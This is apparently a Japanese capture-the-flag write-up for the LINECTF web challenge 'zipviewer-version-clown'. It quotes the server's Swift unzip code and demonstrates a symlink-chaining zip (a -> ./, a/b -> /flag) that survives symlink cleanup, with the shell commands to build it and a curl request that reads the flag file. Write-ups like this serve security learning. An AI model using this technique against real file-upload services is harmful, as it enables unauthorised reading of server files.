



# zipviewer-version-clown:Web:149pts
Read the flag (/flag)  
[http://35.243.120.91:11001/](http://35.243.120.91:11001/)  

[zipviewer-version-clown_3098d6e137345a5fc53729bcfb837375.zip](zipviewer-version-clown_3098d6e137345a5fc53729bcfb837375.zip)  

# Solution
URLとソースが渡される。  
アクセスするとユーザ名を入力して、ユーザページにzipをアップロードできるサイトだ。  
  
アップロードしたファイルは展開され、個別にダウンロードできる。  
何とかして`/flag`を読めばよいらしい。  
swiftで書かれており、アップロード機能は以下のようであった。  
```swift
~~~
    app.post("upload") { req async throws -> ResponseMessage in
        _ = try getRealIPAddress(req: req)

        if !req.hasSession {
            throw Abort(.unauthorized, reason: "Session not found")
        }

        var hashed = ""
        var filePath = ""
        var fileName = ""

        let username = req.session.data["user"] ?? "Unknown"
        let uuid = req.session.data["uuid"] ?? "Unknown"
        req.logger.info("GET /upload -> NAME == \(username)")
        req.logger.info("GET /upload -> UUID == \(uuid)")

        do {
            if username == "Unknown" || uuid == "Unknown" {
                throw CustomError.MissingSessionError
            }

            hashed = try GenerateSHA256(username + uuid + SALT)
            filePath = "Upload/" + hashed
            fileName = filePath + ".zip"
            req.logger.info("filename : \(fileName)")

            try ClearFiles(filepath: filePath)

            let file = try req.content.decode(Input.self).data
            try IsZipFile(data: file)
            try await req.fileio.writeFile(ByteBuffer(data: file), at: fileName)

            let fileList = try GetEntryListInZipFile(fileName: fileName)
            _ = try Unzip(filename: fileName, filepath: filePath)

            guard try CleanupUploadedFile(filePath: filePath, fileList: fileList) else {
                throw Abort(.internalServerError, reason: "Something Wrong")
            }

        } catch CustomError.InvalidZipFile {
            throw Abort(.badRequest, reason: "File is not Zip")
        } catch {
            try ClearFiles(filepath: filePath)
            throw Abort(.internalServerError, reason: "Something Wrong")
        }

        return ResponseMessage(message: "DONE", status: 200)
    }
~~~
```
`Unzip`で展開しており、以下のような実装であった。  
```swift
func Unzip(filename: String, filepath: String) throws -> Bool {
    let fileManager = FileManager()
    let currentWorkingPath = fileManager.currentDirectoryPath

    var sourceURL = URL(fileURLWithPath: currentWorkingPath)
    sourceURL.appendPathComponent(filename)

    var destinationURL = URL(fileURLWithPath: currentWorkingPath)
    destinationURL.appendPathComponent(filepath)

    try fileManager.createDirectory(at: destinationURL, withIntermediateDirectories: true, attributes: nil)
    try fileManager.unzipItem(at: sourceURL, to: destinationURL, allowUncontainedSymlinks: true)

    return true
}
```
`allowUncontainedSymlinks: true`が怪しすぎるため、シンボリックリンクを用いた攻撃だと予測できる。  
ただし、シンボリックリンクは削除されるようだ。  
```swift
func CleanupUploadedFile(filePath: String, fileList: [String]) throws -> Bool {
    do {
        let fileManager = FileManager()
        let currentWorkingPath = fileManager.currentDirectoryPath

        print("File Count \(fileList.count)")

        for fileName in fileList {
            var originPath = URL(fileURLWithPath: currentWorkingPath)

            originPath.appendPathComponent(filePath)
            originPath.appendPathComponent(fileName)

            if !fileManager.fileExists(atPath: originPath.path) {
                print("file not found")
                continue
            }

            if (try IsSymbolicLink(filePath: originPath.path)) {
                print("Find Symbol!! >> \(originPath.path)")
                try fileManager.removeItem(at: originPath)
            }
        }
    } catch {
        return false
    }

    return true
}
```
実はひとつ前の問題としてzipviewer-version-citizenがあり、シンボリックリンクを用いたrace conditionでチームメンバが解いていた。  
内容としては、`./a -> /flag`のようなシンボリックリンクを含んだzipをアップロードし、展開されてからシンボリックリンクが削除されるまでの間に大量の読み取りリクエストを送るものだ。  
ただし、今回はレートリミットがかかっている。  
zip爆弾を作成し、展開に時間をかける手法もzipのファイルサイズ制限で難しい。  
どうにかしてシンボリックリンクが削除されないようにできないだろうか。  
ここで、シンボリックリンクを重ねることを試す。  
幸いzip内はファイル名を編集し、スラッシュを含ませることができる。  
以下のようにすると、`./a`や`./a/b`は削除が試みられるが、生成された`./b`が残る。  
```
./a -> ./
./a/b -> /flag
```
あとは残ったシンボリックリンクにアクセスしてやればよい。  
以下のようにok.zipを作成する。  
```bash
$ ln -s ./ ./a
$ ln -s /flag ./asb
$ zip -ry ok.zip *
  adding: a (stored 0%)
  adding: asb (stored 0%)
```
最後にバイナリエディタで`asb`を`a/b`へ書き換えてやる。  
  
作成したok.zipをアップロードする。  
  
アップロード後に、存在しないはずの`b`をダウンロードする。  
```bash
$ curl 'http://35.243.120.91:11001/download/b' -b 'vapor_session=MLLZHUZaSKJSFdDD25REWWDqw36rLtcY06F1hyave3Y='
LINECTF{34d98811f9f20094d1cc75af9299e636}
```
flagが得られた。  

## LINECTF{34d98811f9f20094d1cc75af9299e636}